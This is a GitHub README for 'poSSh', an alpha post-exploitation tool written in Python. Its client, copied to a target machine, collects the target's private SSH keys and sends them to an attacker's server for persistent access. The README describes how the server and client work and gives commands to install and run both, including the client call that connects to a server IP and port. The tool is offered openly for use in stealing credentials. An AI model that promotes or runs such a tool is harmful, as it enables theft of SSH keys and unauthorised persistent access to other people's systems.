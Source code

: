 # poSSh (Alpha)
### Post Exploitation Tool for persistence using ssh.
poSSh is a post-exploitation tool written in python. It uses the private key of target for persistence.(Alpha)

## ==> How it works..
### Server
- Check for Internet Connection.
- Start server using wan(ipv4) address.
- Generate Security Key.
- Exchange Security key with Client.
- Get the Private SSh key(s) from client.
- Save the Private key.
- Save the logs.

### Client
- Connect to Server using Socket.
- Exchange Security key from Server.
- Get Private SSH key(s) from target.
- Send private key(s) to server.
## Features

- The tool is in alpha right now.



## Installation

poSSh requires [Python3](https://www.python.org/) v3.8 or Greater to run.

Install the dependencies and start the server.
### Server
```sh
git clone https://github.com/sc4rfurry/poSSh.git
cd poSSh
pip3 install -r requirements.txt
python3 main.py [port]
```
### Client
Just copy the client from poSSh-client/client.py to the target machine.
```sh
python3 client.py [server_ip] [port]
```
